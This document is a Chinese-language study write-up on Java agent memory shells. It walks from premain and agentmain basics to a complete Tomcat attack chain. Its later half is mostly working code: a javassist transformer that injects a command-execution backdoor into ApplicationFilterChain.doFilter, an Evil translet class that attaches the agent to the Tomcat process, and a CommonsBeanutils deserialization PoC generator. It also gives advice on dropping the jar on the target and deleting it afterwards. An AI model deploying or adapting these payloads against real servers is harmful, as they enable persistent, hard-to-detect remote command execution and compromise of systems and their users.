








# Agent内存马

## 前言

学习自天下大木头师傅的文章和先知社区的文章，开始agent内存马的学习，简单记录。

## 简介



```java
public static void agentmain(String agentArgs, Instrumentation inst) {
    ...
}

public static void agentmain(String agentArgs) {
    ...
}

public static void premain(String agentArgs, Instrumentation inst) {
    ...
}

public static void premain(String agentArgs) {
    ...
}
```


## premain

要求mainfest文件中有Premain-Class属性且利用`-javaagent`加载。

`premain`方法加载流程：



很清晰易懂。


首先随便写个类

```java
public class Hello {
    public static void main(String[] args) {
        System.out.println("Hello,Java");
    }
}
```

编译成class后打成jar包。

jar包容易出问题的就是里面的`MANIFEST.MF`文件，需要有`Main-Class`：

```java
Manifest-Version: 1.0
Main-Class: Hello

```

然后再实现`premain`方法啊：

```java
import java.lang.instrument.Instrumentation;

public class MyTest {
    public static void premain(String agentArgs, Instrumentation inst) throws Exception{
        System.out.println(agentArgs);
        for(int i=0;i<5;i++){
            System.out.println("premain method is invoked!");
        }
    }
}

```

打印了`agentArgs`(后面会提到)。

打成jar包后，MANIFEST.MF修改如下：

```java
Manifest-Version: 1.0
Premain-Class: MyTest

```

指定`Premain-Class`。

然后运行：

```shell
java -javaagent:agent.jar=feng -jar hello.jar
feng
premain method is invoked!
premain method is invoked!
premain method is invoked!
premain method is invoked!
premain method is invoked!
Hello,Java

```

发现打印出的`agentArgs`参数也就是`-javaagent:agent.jar[=options]`中的`options`。

但是这是main之前的，且开始运行时候的，因此`premain`无法，利用，需要用`agentmain`。


## Instrumentation

了解`agentmain`之前需要先了解这个`Instrumentation`。

Instrumentation 是 JVMTIAgent（JVM Tool Interface Agent）的一部分，Java agent通过这个类和目标 JVM 进行交互，从而达到修改数据的效果。

在 Instrumentation 中增加了名叫 transformer 的 Class 文件转换器，转换器可以改变二进制流的数据


Transformer 可以对未加载的类进行拦截，同时可对已加载的类进行重新拦截，所以根据这个特性我们能够实现动态修改字节码。

主要是三个方法：

```java
addTransformer
getAllLoadedClasses
retransformClasses 
```

看到`Transformer`再联系一下CC肯定就知道是什么东西了。

### addTransformer

注册Transformer。

```java
addTransformer(ClassFileTransformer transformer, boolean canRetransform);

addTransformer(ClassFileTransformer transformer);
```

### getAllLoadedClasses

获取已经加载的所有Class

```java
Returns an array of all classes currently loaded by the JVM.
    @SuppressWarnings("rawtypes")
    Class[]
    getAllLoadedClasses();
```

### retransformClasses

对已加载的类重新定义，达到对已加载的类进行字节码修改的效果。

## agentmain

MF文件中指定`Agent-Class:`即可。

但是它不是通过命令行参数来加载的，需要用到`VirtualMachineDescriptor `和`VirtualMachine `。



VirtualMachine 可以来实现获取系统信息，内存dump、现成dump、类信息统计（例如JVM加载的类）。里面配备有几个方法LoadAgent，Attach 和 Detach 。

简单介绍几个方法：

- **Attach** ：该类允许我们通过给attach方法传入一个jvm的pid(进程id)，远程连接到jvm上
- **loadAgent**：向jvm注册一个代理程序agent，在该agent的代理程序中会得到一个Instrumentation实例，该实例可以 在class加载前改变class的字节码，也可以在class加载后重新加载。在调用Instrumentation实例的方法时，这些方法会使用ClassFileTransformer接口中提供的方法进行处理。
- **Detach**：从 JVM 上面解除一个代理(agent)

例子中一看就明白具体是干什么的了。

给个注入流程图：



> 通过 VirtualMachine 类的 attach(pid) 方法，可以 attach 到一个运行中的 java 进程上，之后便可以通过 loadAgent(agentJarPath) 来将agent 的 jar 包注入到对应的进程，然后对应的进程会调用agentmain方法。

例子：

```java
import java.lang.instrument.Instrumentation;

public class MyTest {
    public static void agentmain(String agentArgs, Instrumentation inst) throws Exception{
        inst.addTransformer(new DefineTransformer(),true);
        //System.out.println("hello,agentmain");
    }
}

```

```java
import java.lang.instrument.ClassFileTransformer;
import java.lang.instrument.IllegalClassFormatException;
import java.security.ProtectionDomain;

public class DefineTransformer implements ClassFileTransformer {
    @Override
    public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) throws IllegalClassFormatException {
        System.out.println(className);
        return classfileBuffer;
    }
}

```


打成jar包，MF文件这样写：

```
Manifest-Version: 1.0
Can-Redefine-Classes: true
Can-Retransform-Classes: true
Agent-Class: MyTest

```

`Agent-Class`肯定不用说，剩下的那个`Can-Redefine-Classes`和`Can-Retransform-Classes`在需要修改已经被JVM加载过的类的字节码的时候必须设置（所以都写上吧）。


然后测试，这里会有1个问题：

> 我这里使用的是mac环境，在mac上安装了的jdk是能直接找到 VirtualMachine 类的，但是在windows中安装的jdk无法找到，如果你遇到这种情况，请手动将你jdk安装目录下：lib目录中的tools.jar添加进当前工程的Libraries中

由于 tools.jar 并不会在 JVM 启动的时候默认加载，所以这里利用 URLClassloader 来加载我们的 tools.jar。

测试代码如下：

```java
import com.sun.tools.attach.VirtualMachine;
import com.sun.tools.attach.VirtualMachineDescriptor;

import java.util.List;

public class Test {
    public static void main(String[] args) throws Exception{
        try{
            java.io.File toolsPath = new java.io.File(System.getProperty("java.home").replace("jre","lib") + java.io.File.separator + "tools.jar");
            System.out.println(toolsPath.toURI().toURL());
            java.net.URL url = toolsPath.toURI().toURL();
            java.net.URLClassLoader classLoader = new java.net.URLClassLoader(new java.net.URL[]{url});
            Class<?> MyVirtualMachine = classLoader.loadClass("com.sun.tools.attach.VirtualMachine");
            Class<?> MyVirtualMachineDescriptor = classLoader.loadClass("com.sun.tools.attach.VirtualMachineDescriptor");
            java.lang.reflect.Method listMethod = MyVirtualMachine.getDeclaredMethod("list",null);
            java.util.List<Object> list = (java.util.List<Object>) listMethod.invoke(MyVirtualMachine,null);

            System.out.println("Running JVM Start..");
            for(int i=0;i<list.size();i++){
                Object o = list.get(i);
                java.lang.reflect.Method displayName = MyVirtualMachineDescriptor.getDeclaredMethod("displayName",null);
                String name = (String) displayName.invoke(o,null);
                System.out.println(name);
                if (name.contains("Test")){
                    java.lang.reflect.Method getId = MyVirtualMachineDescriptor.getDeclaredMethod("id",null);
                    java.lang.String id = (java.lang.String) getId.invoke(o,null);
                    System.out.println("id >>> " + id);
                    java.lang.reflect.Method attach = MyVirtualMachine.getDeclaredMethod("attach",new Class[]{java.lang.String.class});
                    java.lang.Object vm = attach.invoke(o,new Object[]{id});
                    java.lang.reflect.Method loadAgent = MyVirtualMachine.getDeclaredMethod("loadAgent",new Class[]{java.lang.String.class});
                    java.lang.String path = "C:\\Users\\15997\\Desktop\\AgentMemory-1.0-SNAPSHOT.jar";
                    loadAgent.invoke(vm,new Object[]{path});
                    java.lang.reflect.Method detach = MyVirtualMachine.getDeclaredMethod("detach",null);
                    detach.invoke(vm,null);
                    break;
                }
            }
        } catch (Exception e){
            e.printStackTrace();
        }
    }
}

```

后面的代码其实就这样：

```java
        String path = "AgentMain.jar的路径";
        List<VirtualMachineDescriptor> list = VirtualMachine.list();
        for (VirtualMachineDescriptor v:list){
            System.out.println(v.displayName());
            if (v.displayName().contains("AgentMainDemo")){
              	// 将 jvm 虚拟机的 pid 号传入 attach 来进行远程连接
                VirtualMachine vm = VirtualMachine.attach(v.id());
              	// 将我们的 agent.jar 发送给虚拟机 
                vm.loadAgent(path);
                vm.detach();
            }
        }
```

遍历找到当前运行的JVM，然后把agent.jar注入进入，调用`agentmain`。



## Agent内存马注入

其实到了现在要怎么注入内存马已经清楚了，首先会注入agent后执行`agentmain`方法，在这个方法中我们可以对`Instrumentation`进行操作，可以对已经加载的类进行修改，把恶意代码注入进去，这就是agent内存马的原理。

寻找思路是这样：

找到对应的类中的某个方法，这个类中的方法需要满足两个要求

1. 该方法一定会被执行

1. 不会影响正常的业务逻辑

这里以Filter的注入为例子。在Filter中是对`FilterChain`的调用，分析Filter内存马的时候已经知道，`ApplicationFilterChain#doFilter`一定会被调用，所以可以把恶意代码注入到这里面。

此方法还有`req`和`resp`，更方便了：

```java
    @Override
    public void doFilter(ServletRequest request, ServletResponse response)
        throws IOException, ServletException {
```


然后接下来就是长达两个小时的踩坑环境，nmlgbdwcnmlgb，一堆坑我tm真的是吐了。

首先是agent：

```java
import java.lang.instrument.Instrumentation;

public class MyTest {
    public static final String ClassName = "org.apache.catalina.core.ApplicationFilterChain";

    public static void agentmain(String agentArgs, Instrumentation ins) {
        System.out.println("agentmain!");
        ins.addTransformer(new DefineTransformer(),true);
        // 获取所有已加载的类
        Class[] classes = ins.getAllLoadedClasses();
        for (Class clas:classes){
            if (clas.getName().equals(ClassName)){
                try{
                    // 对类进行重新定义
                    ins.retransformClasses(new Class[]{clas});
                } catch (Exception e){
                    e.printStackTrace();
                }
            }
        }
    }
}

```

```java
import javassist.*;

import java.lang.instrument.ClassFileTransformer;
import java.security.ProtectionDomain;

public class DefineTransformer implements ClassFileTransformer {
    public static final String ClassName = "org.apache.catalina.core.ApplicationFilterChain";

    @Override
    public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) {
        className = className.replace("/",".");
        if (className.equals(ClassName)){
            System.out.println("Find the Inject Class: " + ClassName);
            ClassPool pool = ClassPool.getDefault();
            ClassClassPath classPath = new ClassClassPath(classBeingRedefined);
            pool.appendClassPath(classPath);
            try {
                System.out.println("className:"+className);
                CtClass c = pool.getCtClass(className);
                CtMethod m = c.getDeclaredMethod("doFilter");
                m.insertBefore("javax.servlet.http.HttpServletRequest req =  request;\n" +
                        "javax.servlet.http.HttpServletResponse res = response;\n" +
                        "java.lang.String cmd = request.getParameter(\"cmd\");\n" +
                        "java.lang.String[] cmds = new java.lang.String[]{\"cmd\",\"/c\",cmd};\n"+
                        "if (cmd != null){\n" +
                        "    try {\n" +
                        "        java.io.InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();\n" +
                        "        java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.InputStreamReader(in));\n" +
                        "        String line;\n" +
                        "        StringBuilder sb = new StringBuilder(\"\");\n" +
                        "        while ((line=reader.readLine()) != null){\n" +
                        "            sb.append(line).append(\"\\n\");\n" +
                        "        }\n" +
                        "        response.getOutputStream().print(sb.toString());\n" +
                        "        response.getOutputStream().flush();\n" +
                        "        response.getOutputStream().close();\n" +
                        "    } catch (Exception e){\n" +
                        "        e.printStackTrace();\n" +
                        "    }\n" +
                        "}");
                byte[] bytes = c.toBytecode();
                // 将 c 从 classpool 中删除以释放内存
                c.detach();
                return bytes;
            } catch (Exception e){
                e.printStackTrace();
            }
        }
        return new byte[0];
    }
}

```

首先有一个很大的坑点，你注入之后会报NoSuch org.apache.catalina.core.ApplicationFilterChain，网上有2种解决办法，一种是：

```java
ClassPool classPool = ClassPool.getDefault();
classPool.appendClassPath(new LoaderClassPath(Thread.currentThread().getContextClassLoader()));
```

另外一种就是我这里写的：

```java
            ClassPool pool = ClassPool.getDefault();
            ClassClassPath classPath = new ClassClassPath(classBeingRedefined);
            pool.appendClassPath(classPath);
```

第一种我没成功，但是每个人环境不同，建议都试试。

然后就是打jar包，因为这里需要连着javassist的依赖一起打，我从网上找到的方法是：

```xml
    <build>
        <plugins>
            <plugin>
                <artifactId>maven-assembly-plugin</artifactId>
                <configuration>
                    <descriptors>
                        <descriptor>src/main/resources/assembly.xml</descriptor>
                    </descriptors>
                    <archive>

                    </archive>
                </configuration>
            </plugin>
        </plugins>
    </build>
```

然后resources下面写`assembly.xml`：

```xml
<assembly xmlns="http://maven.apache.org/ASSEMBLY/2.0.0"
          xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
          xsi:schemaLocation="http://maven.apache.org/ASSEMBLY/2.0.0
                              http://maven.apache.org/xsd/assembly-2.0.0.xsd">

    <id>jar-with-dependencies</id>

    <!--指明打包方式-->
    <formats>
        <format>jar</format>
    </formats>

    <includeBaseDirectory>false</includeBaseDirectory>
    <dependencySets>
        <dependencySet>
            <outputDirectory>/</outputDirectory>
            <useProjectArtifact>true</useProjectArtifact>
            <unpack>true</unpack>
            <scope>runtime</scope>
            <!--这里以排除 storm 环境中已经提供的 storm-core 为例，演示排除 Jar 包-->
            <excludes>
                <exclude>org.apache.storm:storm-core</exclude>
            </excludes>
        </dependencySet>
    </dependencySets>
</assembly>
```

然后`mvn clean`，`mvn assembly:assembly`产生`AgentMemory-1.0-SNAPSHOT-jar-with-dependencies.jar`，再修改里面的MF文件：

```java
Manifest-Version: 1.0
Can-Redefine-Classes: true
Can-Retransform-Classes: true
Agent-Class: MyTest


```

这时候agent的jar包就OK了，我假设本地的tomcat环境下存在反序列化漏洞，引入了CB漏洞，所以拿CB漏洞打。

恶意类：

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class Evil  extends AbstractTranslet {
    static {
        try{
            java.lang.String path = "C:\\Users\\15997\\Desktop\\AgentMemory-1.0-SNAPSHOT-jar-with-dependencies.jar";
            java.io.File toolsPath = new java.io.File(System.getProperty("java.home").replace("jre","lib") + java.io.File.separator + "tools.jar");
            java.net.URL url = toolsPath.toURI().toURL();
            java.net.URLClassLoader classLoader = new java.net.URLClassLoader(new java.net.URL[]{url});
            Class/*<?>*/ MyVirtualMachine = classLoader.loadClass("com.sun.tools.attach.VirtualMachine");
            Class/*<?>*/ MyVirtualMachineDescriptor = classLoader.loadClass("com.sun.tools.attach.VirtualMachineDescriptor");
            java.lang.reflect.Method listMethod = MyVirtualMachine.getDeclaredMethod("list",null);
            java.util.List/*<Object>*/ list = (java.util.List/*<Object>*/) listMethod.invoke(MyVirtualMachine,null);

            System.out.println("Running JVM list ...");
            for(int i=0;i<list.size();i++){
                Object o = list.get(i);
                java.lang.reflect.Method displayName = MyVirtualMachineDescriptor.getDeclaredMethod("displayName",null);
                java.lang.String name = (java.lang.String) displayName.invoke(o,null);
                System.out.println(name);
                // 列出当前有哪些 JVM 进程在运行
                // 这里的 if 条件根据实际情况进行更改
                //org.apache.catalina.startup.Bootstrap是tomcat
                if (name.contains("org.apache.catalina.startup.Bootstrap")){
                    // 获取对应进程的 pid 号
                    java.lang.reflect.Method getId = MyVirtualMachineDescriptor.getDeclaredMethod("id",null);
                    java.lang.String id = (java.lang.String) getId.invoke(o,null);
                    System.out.println("id >>> " + id);
                    java.lang.reflect.Method attach = MyVirtualMachine.getDeclaredMethod("attach",new Class[]{java.lang.String.class});
                    java.lang.Object vm = attach.invoke(o,new Object[]{id});
                    java.lang.reflect.Method loadAgent = MyVirtualMachine.getDeclaredMethod("loadAgent",new Class[]{java.lang.String.class});
                    loadAgent.invoke(vm,new Object[]{path});
                    java.lang.reflect.Method detach = MyVirtualMachine.getDeclaredMethod("detach",null);
                    detach.invoke(vm,null);
                    System.out.println("Agent.jar Inject Success !!");
                    break;
                }
            }
        } catch (Exception e){
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}

```

可以发现需要目标服务器上有`agent`的jar包，所以真正利用的时候需要先把jar包写入目标系统，然后再触发，然后再删除掉。

产生POC：

```java
import com.summer.util.SerializeUtil;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.tools.attach.VirtualMachine;
import com.sun.tools.attach.VirtualMachineDescriptor;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;

import java.util.Base64;
import java.util.List;
import java.util.PriorityQueue;

public class Test {
    public static void main(String[] args) throws Exception{
        byte[] evilCode = SerializeUtil.getEvilCode();
        TemplatesImpl templates = new TemplatesImpl();
        SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
        SerializeUtil.setFieldValue(templates,"_name","feng");
        SerializeUtil.setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());

        BeanComparator beanComparator = new BeanComparator("outputProperties");

        PriorityQueue priorityQueue = new PriorityQueue(2, beanComparator);


        SerializeUtil.setFieldValue(priorityQueue,"queue",new Object[]{templates,templates});
        SerializeUtil.setFieldValue(priorityQueue,"size",2);
        byte[] bytes = SerializeUtil.serialize(priorityQueue);
        System.out.println(Base64.getEncoder().encodeToString(bytes));
        //SerializeUtil.unserialize(bytes);

    }
}

```

打过去：







终于调出来了。。。mmp

## 参考文章

https://www.yuque.com/tianxiadamutou/zcfd4v/tdvszq#362b6873